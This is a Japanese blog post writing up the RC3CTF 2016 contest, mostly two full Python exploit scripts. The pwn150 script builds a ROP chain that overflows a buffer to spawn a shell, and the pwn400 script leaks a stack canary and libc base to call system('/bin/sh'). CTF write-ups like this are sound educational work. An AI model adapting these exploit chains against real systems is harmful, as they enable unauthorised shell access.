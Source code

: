```yaml
---
layout: post
title: RC3CTF 2016 writeup
---
```


WackMCで参加しました, 1700ptでおそらく100〜150位くらいです.(スコアボードが競技終了後見れなくなった)

テスト勉強の息抜きのつもりが結構やってしまったし死にました.

web100, pwn150, pwn400, をsubmitしました.

## web100

cssに書いてた.

## pwn150

オプション1でどんどん追加していくとBOFが出来るのでROP

staticallyなバイナリだったのでrop gadgetが豊富→ROPで攻める. が正攻法と思ってたんですが

checksecしてみるとNX disenableだったのでシェルコードで良かったですね...(頭が悪い)

```python
from No___Op import *

target = 'ims.ctf.rc3.club:7777'

c = Pwning( target )

for i in range(6):
	c.sendall('1')
	c.sendall('1')
	c.sendall('AAAAAAAA')

raw_input('dbg')

addr_bss = 0x080f0f80
#0x080908e4: mov dword [eax+0x20], ecx ; ret  ;  (1 found)
addr_ptr = 0x080908e4

addr_int80 = 0x080bf469
pop_ebx = 0x080c1d3b
pop_ecx = 0x080ea1e5
pop_edx = 0x080e2845
pop_eax = 0x080e7a25
p2ret = 0x0805a3f3 # esi edi
#p2ret = 0x08073509

c.sendall('1')
c.sendall(str(pop_ebx))
c.sendall('B' * 4 + 'C' * 4)

c.sendall('1')
c.sendall(str(11))
c.sendall(p32(addr_bss) + p32(pop_eax))

c.sendall('1')
c.sendall(str(p2ret))
c.sendall(p32(pop_ecx) + p32(0))

c.sendall('1')
c.sendall(str(pop_eax))
c.sendall(p32(addr_bss) + p32(0))

c.sendall('1')
c.sendall(str(int('/bin'[::-1].encode('hex'), 16)))
c.sendall(p32(addr_bss) + p32(pop_ecx))


c.sendall('1')
c.sendall(str(addr_bss + 4))
c.sendall(p32(addr_ptr) + p32(pop_eax))

c.sendall('1')
c.sendall(str(addr_ptr))
c.sendall(p32(pop_ecx) + '/sh\0')

c.sendall('1')
c.sendall(str(p2ret))
c.sendall(p32(pop_eax) + p32(11))

c.sendall('1')
c.sendall(str(pop_ecx))
c.sendall(p32(0) + p32(pop_ebx))

c.sendall('1')
c.sendall(str(0))
c.sendall(p32(pop_ecx) + p32(pop_ecx))

c.sendall('1')
c.sendall(str(pop_ebx))
c.sendall(p32(pop_edx) + p32(0))

c.sendall('1')
c.sendall('1')
c.sendall(p32(addr_bss + 0x20)  + p32(addr_int80))

c.sendall('1')
c.sendall(str(0x41414141))
c.sendall(p32(0x41414142) * 2)

c.dbg_shell()
```

## pwn400

pwn150のバイナリにNX+Canaryの防御機構が追加されたバイナリ.

3のオプションくらいで, 1で書き込んだものを見れるんですけど, その際に何番目読み込むか聞かれます.

で, -1とかやっても読み込めたのでstack上ならどこでも読み込めます.

libcのアドレスとcanaryをリークしてsystem("/bin/sh");まで持っていきました.

```python
from No___Op import *

target = 'localhost:17171'
target = 'ims.ctf.rc3.club:8888'

c = Pwning( target )

c.sendall('1')
c.sendall('1')
c.sendall('A' * 8)
c.sendall('3')
c.sendall('-4')

c.read_until('Product ID: ')

libc_base = (int(c.recv(10), 10) & 0xffffffff) - 0x1a7000

#info(hex(libc_base))

c.read_until('Product Code: ')

c.recv(4)
canary = u32(c.recv(4))

succ('canary	: ' + hex(canary))
succ('libc_base	: ' + hex(libc_base))

offset_system = 0x0003fe70
offset_binsh = 0x0015da8c

#offset_system = 0x00040310
#offset_binsh = 0x0016084c

libc_system = libc_base + offset_system
libc_binsh = libc_base + offset_binsh

succ('system	: ' + hex(libc_system))
succ('binsh 	: ' + hex(libc_binsh))


for i in range(4):
	c.sendall('1')
	c.sendall('1')
	c.sendall('a' * 8)

c.sendall('1')
c.sendall(str(canary))
c.sendall('mazaimazai')

c.sendall('1')
c.sendall('114514')
c.sendall('ikisugii')

c.sendall('1')
c.sendall(str(libc_binsh))
c.sendall(p32(libc_system) * 2)

c.sendall('4')
c.sendall('4')
c.sendall('4')
c.sendall('4')
c.sendall('ls -lia')
c.sendall('ls -lia')
c.dbg_shell()
```


* * *

留年からの死をキメそうなのに, テスト前にCTFをしてる人は何をやってもダメ.

ちなみに前期末時点の成績, 赤点6科目ありました.

残りのテスト頑張ります.
